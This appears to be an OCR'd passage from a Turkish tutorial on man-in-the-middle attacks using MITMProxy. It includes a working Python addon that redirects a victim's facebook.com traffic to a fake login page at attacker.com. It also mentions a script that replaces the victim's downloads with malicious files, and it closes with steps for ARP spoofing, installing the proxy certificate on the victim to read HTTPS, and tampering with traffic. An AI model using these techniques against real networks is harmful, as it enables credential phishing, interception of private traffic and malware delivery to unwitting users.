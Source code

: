 **📌 Bu betik, hedef kullanıcının indirdiği dosyayı saldırganın zararlı dosyasıyla değiştirir.**

**📌 Saldırı 5: Kullanıcıyı Farklı Bir Siteye Yönlendirme**
MITMProxy kullanarak tüm trafiği saldırganın sitesine yönlendirebilirsiniz:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if "facebook.com" in flow.request.pretty\_url:
 flow.request.url = "http://attacker.com/fake-facebook"

**📌 Bu betik, Facebook giriş sayfasını sahte bir siteye yönlendirir.**

4. MITMProxy ile Trafiği İzleme ve Manipüle Etme
Saldırıları manuel olarak gerçekleştirmek için MITMProxy’nin GUI aracını kullanabilirsiniz.
Başlatmak için:
```bash
sudo mitmweb --mode transparent
Ardından http://127.0.0.1:8081 adresine giderek trafik akışını manuel olarak düzenleyebilirsiniz.
```
5. Sonuç
MITMProxy kullanarak MITM saldırıları yapmak için: ✔ Ağ trafiğini MITMProxy’ye yönlendirin (ARP Spoofing, iptables)
**✔ MITMProxy sertifikasını kurbana yükleyerek HTTPS trafiğini okuyun**
**✔ İstekleri ve yanıtları manipüle ederek saldırılar gerçekleştirin**